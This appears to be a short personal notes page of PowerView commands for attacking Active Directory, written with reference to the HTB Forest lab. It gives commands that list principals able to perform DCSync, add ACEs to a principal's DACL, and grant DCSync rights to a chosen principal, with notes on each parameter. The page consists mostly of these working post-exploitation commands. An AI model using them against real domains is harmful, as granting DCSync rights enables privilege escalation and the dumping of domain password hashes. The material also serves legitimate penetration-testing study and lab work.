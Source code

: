 ### Convert SID To Object Name

This may come in handy, as many object's ACEs designate the subject by its SID.

```powershell
"$SID" | Convert-SidToName
```

```powershell
ConvertFrom-SID $SID
```

---

## Determine All Principals Who Can Execute a [[dcsync|DCSync]]

```powershell
Get-ObjectAcl -DistinguishedName "$DISTINGUISHED_NAME_OF_THE_DOMAIN" -ResolveGUIDs | ?{($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')}
```

You'll probably need to [[powerview#Convert SID To Object Name|translate each of the resultant objects' SIDs into their actual names]].

---

## Add an ACE to a Principal's DACL

```powershell
Add-DomainObjectAcl -PrincipalIdentity "$PRINCIPAL" -TargetIdentity "$TARGET" -Rights $RIGHTS [-Credentials $CREDENTIALS] [-Verbose]
```

- `$PRINCIPAL` is the domain principal **subject** of the ACE
- `$TARGET` is the domain principal **object** of the ACE
	- One time for this to work, I had to specify the target's LDAP distinguished name, not just its SAM account name
- `$RIGHTS` are either `ResetPassword`, `WriteMembers`, `DCSync`, or `All`.
- `$CREDENTIALS` is an optional [[powershell#Create a Credential|PSCredential]] object of a domain principal authorized to add the ACE to the target principal's DACL

---

## Assign DCSync Privileges to a Principal

```powershell
Add-DomainObjectAcl -PrincipalIdentity $PRINCIPAL -TargetIdentity $DISTINGUISHED_NAME_OF_DOMAIN -Rights DCSync [-Credentials $CREDENTIALS] [-Verbose]
```

- `$PRINCIPAL` is the principal who you are adding DCSync privileges to
- `$CREDENTIALS` is a [[powershell#Create a Credential|PSCredential]] object of a domain principal authorized to add the ACE to the domain's ACL
	- Out of precaution, it's often wise to include this parameter, even if you're executing in the context of the same user whose credential you would pass in (remember HTB Forest)

---